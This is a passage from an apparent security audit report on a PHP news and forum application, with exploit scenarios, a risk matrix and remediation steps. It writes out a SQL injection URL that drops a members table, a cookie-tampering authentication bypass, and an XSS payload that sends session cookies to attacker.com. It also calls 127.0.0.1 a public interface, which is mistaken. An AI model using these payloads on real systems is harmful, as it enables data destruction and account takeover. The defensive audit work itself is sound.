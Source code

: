 ### **Infrastructure Security**
- Database accessible on public interface (127.0.0.1:3306)
- No network segmentation evident
- Development setup in production-like environment

## Exploit Scenarios

### **Scenario 1: SQL Injection → Full Database Compromise**
```
GET /news/liste_news.php?supprimer_news=1'; DROP TABLE membres; --
Result: Complete database destruction
```

### **Scenario 2: Authentication Bypass**
```
1. Intercept login request
2. Modify cookie: mdp=admin_password_hash
3. Access admin functionality without credentials
```

### **Scenario 3: Stored XSS → Account Takeover**
```
1. Post message: <script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>
2. Admin views message
3. Session cookie stolen, account compromised
```

## Risk Assessment Matrix

| Vulnerability Category | Likelihood | Impact | Overall Risk |
|----------------------|------------|---------|--------------|
| SQL Injection | High | Critical | **CRITICAL** |
| Weak Cryptography | High | Critical | **CRITICAL** |
| Authentication Bypass | High | High | **CRITICAL** |
| XSS | Medium | High | **HIGH** |
| Access Control | Medium | High | **HIGH** |
| Information Disclosure | High | Medium | **HIGH** |

## Remediation Priorities

### **IMMEDIATE (Within 24-48 hours)**
1. **Disable Application** - Take offline until critical issues resolved
2. **Patch SQL Injection** - Implement prepared statements
3. **Fix Authentication** - Remove plaintext credentials from cookies
4. **Update Password Hashing** - Migrate from MD5 to bcrypt/Argon2
